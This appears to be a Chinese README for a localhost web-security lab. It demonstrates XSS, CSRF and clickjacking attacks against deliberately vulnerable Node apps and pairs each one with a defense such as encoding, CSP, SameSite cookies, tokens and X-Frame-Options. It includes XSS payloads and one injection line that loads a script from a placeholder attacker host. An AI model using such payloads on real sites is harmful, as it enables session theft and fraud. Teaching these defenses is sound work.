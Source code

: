 # web安全

## XSS 攻击

### 反射型XSS攻击
1. 进入 xss 目录，运行 node app.js (启动本地服务器)
2. 在浏览器中访问 `localhost:3000/xss-search.html`
3. 正常输入 j ，会返回含有 j 的所有结果
4. 现在开始攻击：输入  `<script>alert(1)</script>`，点击搜索，此时浏览器执行了脚本，并弹出弹窗1，完成了攻击！！！
### 反射型XSS攻击防御

*  编辑器打开xss目录中的 app.js
* 找到`/api/search`接口
* 修改搜索无结果时的返回内容，改为如下代码：

        res.json({ code: 1, data:[], keyWord:encodeHtml(req.query.keyWord) })
        
* 重启服务：node app.js
* 访问浏览器 `localhost:3000/xss-search.html`，并输入`<script>alert(1)</script>`，点击搜索，此时不会弹窗。因为我们进行了过滤转义

### 存储型XSS攻击

1. 进入 xss 目录，运行 node app.js (启动本地服务器)
2. 在浏览器中访问 `localhost:3000/xss-comment.html`
3. 正常输入评论内容`开心ing` ，评论列表会多一条`开心ing`的内容。
4. 现在开始攻击：输入`<script>alert(1)</script>`，点击发表，此时浏览器执行了脚本，并弹出弹窗1，完成了攻击！！！这时，这条评论内容存储到了服务器，所有访问评论区的用户都会遭受到攻击。。。。此外攻击者也可以通过刷接口的方式向服务器注入恶意脚本。

### 存储型XSS防御
1. 编辑器打开xss目录中的 app.js
2. 找到`/api/addComment`接口
3. 对传入的参数`comment`进行过滤转义: `commentData.push(encodeHtml(req.body.comment))`
4. 重启服务：node app.js
5. 访问浏览器 `localhost:3000/xss-comment.html`，并输入`<script>alert(1)</script>`，点击发表，此时不会弹窗。因为我们进行了过滤转义。
6. 当然我们也可以在前端做过滤，但是对入数据库的数据做过滤不更安全嘛～～～


### DOM型XSS攻击
 1. 进入 xss 目录，运行 node app.js (启动本地服务器)
 2. 在浏览器中访问 `localhost:3000/xss-dom.html?name=hgf`
 3. 此时页面显示 `hgf邀请你瓜分100亿红包啦`
 4. 现在把url改为 `localhost:3000/xss-dom.html?name=<script>alert(1)</script>`，点击回车，这时页面弹出1，完成了攻击！！！如果我把这个url发给别人，别人一旦点击就会遭到攻击。（*这里只是alert，攻击者可不会这么简单，他会获取你的cookie 得到用户名密码等等*）
 
 
### DOM型XSS防御
1. 编辑器打开xss/src/xss-dom.html文件
2. 将url的name参数进行过滤转义：将 `getUrlParam('name')` 改为 `encodeHtml(getUrlParam('name'))`
3. 打开浏览器继续访问 `localhost:3000/xss-dom.html?name=<script>alert(1)</script>` ，回车，这时页面不会弹窗。


**xss攻击还有一种情况，比如在url后面加一个`name=javascript:document.write('<script/src=//xxxxxxx?>')`,此时前端没有做过滤，直接将脚本插入到页面，脚本就会执行：在页面写入一个script并且引入攻击者的攻击文件。这时除了对脚本进行过滤，还有一种防御方法：**

1. 编辑器打开 xss/app1.js
2. 可以看到我们读到了 `xss-search.html` 并添加了一个 `'Content-Security-Policy': 'script-src \'self\'' `的请求头，这个请求头的意思是，xss-search.html的script标签只允许加载自己域名下的文件。这样就阻止了第三方的攻击脚本的引入。 ( 注：此方法防御不了攻击者用接口的方式获取本站的cookie)


 
## CSRF攻击

1. 进入 csrf 目录，运行 node app.js (端口号为3001)
2. 再打开一个命令行窗口执行 node app1.js （端口号为3002）
3. 浏览器中访问 `http://localhost:3001/index.html`，没有登录的情况下自动跳转登录页
4. 使用 222/222 登录，可以看到 222 的账号有 10W 的余额
5. 打开一个无痕浏览器窗口，访问 `http://localhost:3001/index.html`，使用111/111登录，可以看到111账号有1000余额。
5. 现在准备攻击222账户： 222 已经登录了，cookie已经有了，这个时候，有人给你发了个钓鱼网站的链接: `http://localhost:3002/fish.html`，你点过去了，你的钱就被偷偷偷走了~~~
6. 222 此时访问`http://localhost:3001/index.html`发现账户少了100元。钱到了哪里了呢？
7. 无痕浏览器打开`http://localhost:3001/index.html`,发现111账户多了100元。


## CSRF防御
### 1. 使用 `sameSite`属性

1. 编辑器打开csrf/app.js
2. 找到接口 `/api/login`，设置cookie
时，设置sameSite为'Strict'，这个字段代表，不允许第三方接口访问时携带cookie，只允许自己域名下的接口携带cookie
。
3.这时访问钓鱼网站`http://localhost:3002/fish.html`，你的钱并不会被偷走。

### 2. 转账接口使用验证码验证
1. 利用svg-captcha(已安装依赖)
2. 编辑器打开`csrf/src/attack.html`,把接口`api/transfer`换为 `api/transfer1`,具体`api/transfer1`怎么实现的，请到`csrf/app.js`查看
3. 这时访问钓鱼网站`http://localhost:3002/fish.html`，你的钱并不会被偷走。


### 3. 判断来源(referer) 【referer并不安全，应该referer是可以被修改的】

1. 编辑器打开`csrf/src/attack.html`,把接口`api/transfer`换为 `api/transfer2`,具体`api/transfer2`怎么实现的，请到`csrf/app.js`查看
2. 这时访问钓鱼网站`http://localhost:3002/fish.html`，你的钱并不会被偷走。

### 4. 使用token 
1. 编辑器打开`csrf/src/attack.html`,把接口`api/transfer`换为 `api/transfer3`,具体`api/
transfer3`怎么实现的，请到`csrf/app.js`查看
2. 这时访问钓鱼网站`http://localhost:3002/fish.html`，你的钱并不会被偷走。

## 点击劫持
1. 进入`click-hijack` 目录，运行node app.js
2. 浏览器打开 `http://localhost:3003/index.html`,
3. 看到有很多投票按钮，可以任意投票
4. 现在再开一个命令行工具 运行 node app2.js
5. 浏览器打开 `http://localhost:3004/attack.html`，这时界面看到一个按钮，当你点击这个按钮的时候，实际上是给hgf投票了。

### 防御
1. 编辑器打开 `click-hijack/app.js`
2. 添加 `res.setHeader('X-FRAME-OPTIONS','DENY')`
3. 此时再浏览器打开 `http://localhost:3004/attack.html`，发现index.html并没有加载出来。

***（X-Frame-Options设置为DENY，表示当前页面不允许在frame中加载展示，以防止被劫持）***



